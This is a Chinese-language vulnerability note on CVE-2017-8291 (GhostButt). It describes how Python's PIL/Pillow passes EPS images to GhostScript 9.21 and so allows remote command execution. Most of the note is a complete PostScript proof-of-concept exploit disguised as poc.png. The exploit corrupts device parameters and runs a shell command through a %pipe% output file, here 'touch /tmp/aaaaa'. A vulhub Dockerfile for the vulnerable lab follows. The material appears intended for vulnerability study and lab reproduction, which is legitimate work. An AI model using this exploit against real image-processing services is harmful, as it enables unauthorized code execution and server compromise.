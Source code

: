 参考：
	- https://github.com/vulhub/vulhub/tree/master/python/PIL-CVE-2017-8291
	- https://github.com/neargle/PIL-RCE-By-GhostButt/blob/master/readme.md
	- https://paper.seebug.org/310/

##  CVE-2017-8291
（GhostScript<=9.21）
Python中处理图片的模块PIL（Pillow），因为其内部调用了GhostScript而受到GhostButt漏洞（CVE-2017-8291）的影响，造成远程命令执行漏洞。

PIL内部根据图片头（Magic Bytes）判断图片类型，如果发现是一个eps文件（头为%!PS），则分发给PIL/EpsImagePlugin.py处理。
在这个模块中，PIL调用了系统的gs命令，也就是GhostScript来处理图片文件：
poc.png
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100


/size_from  10000      def
/size_step    500      def
/size_to   65000      def
/enlarge    1000      def

%/bigarr 65000 array def

0
size_from size_step size_to {
    pop
    1 add
} for

/buffercount exch def

/buffersizes buffercount array def


0
size_from size_step size_to {
    buffersizes exch 2 index exch put
    1 add
} for
pop

/buffers buffercount array def

0 1 buffercount 1 sub {
    /ind exch def
    buffersizes ind get /cursize exch def
    cursize string /curbuf exch def
    buffers ind curbuf put
    cursize 16 sub 1 cursize 1 sub {
        curbuf exch 255 put
    } for
} for


/buffersearchvars [0 0 0 0 0] def
/sdevice [0] def

enlarge array aload

{
    .eqproc
    buffersearchvars 0 buffersearchvars 0 get 1 add put
    buffersearchvars 1 0 put
    buffersearchvars 2 0 put
    buffercount {
        buffers buffersearchvars 1 get get
        buffersizes buffersearchvars 1 get get
        16 sub get
        254 le {
            buffersearchvars 2 1 put
            buffersearchvars 3 buffers buffersearchvars 1 get get put
            buffersearchvars 4 buffersizes buffersearchvars 1 get get 16 sub put
        } if
        buffersearchvars 1 buffersearchvars 1 get 1 add put
    } repeat

    buffersearchvars 2 get 1 ge {
        exit
    } if
    %(.) print
} loop

.eqproc
.eqproc
.eqproc
sdevice 0
currentdevice
buffersearchvars 3 get buffersearchvars 4 get 16#7e put
buffersearchvars 3 get buffersearchvars 4 get 1 add 16#12 put
buffersearchvars 3 get buffersearchvars 4 get 5 add 16#ff put
put


buffersearchvars 0 get array aload

sdevice 0 get
16#3e8 0 put

sdevice 0 get
16#3b0 0 put

sdevice 0 get
16#3f0 0 put


currentdevice null false mark /OutputFile (%pipe%touch /tmp/aaaaa)
.putdeviceparams
1 true .outputpage
.rsdparams
%{ } loop
0 0 .quit
%asdf
```

```dockerfile
FROM vulhub/ghostscript:9.21-python

LABEL maintainer="neargle <nearg1e.com@gmail.com> && phith0n <root@leavesongs.com>"

RUN set -ex \
    && pip install -U pip \
    && pip install "flask==0.12.2" "Pillow==4.2.1"
    
COPY app.py /usr/src/

WORKDIR /usr/src/

CMD ["python", "app.py"]
```
